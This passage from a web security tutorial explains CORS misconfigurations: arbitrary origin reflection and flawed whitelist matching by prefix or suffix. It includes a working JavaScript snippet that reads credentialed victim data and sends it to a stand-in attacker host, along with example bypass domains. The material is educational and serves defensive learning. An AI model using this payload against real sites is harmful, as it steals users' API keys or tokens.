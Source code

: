 Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
}; 
```
### Errors parsing Origin headers

Some applications that support access from multiple origins do so by using a whitelist of allowed origins. When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the Access-Control-Allow-Origin header so that access is granted. For example, the application receives a normal request like:
```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```
The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com 
```



Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence). And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions. Any mistakes in the implementation can lead to access being granted to unintended external domains.

For example, suppose an application grants access to all domains ending in:
```
normal-website.com
```
An attacker might be able to gain access by registering the domain:
```
hackersnormal-website.com
```
Alternatively, suppose an application grants access to all domains beginning with
```
normal-website.com
```
An attacker might be able to gain access using the domain:
```
normal-website.com.evil-user.net
```
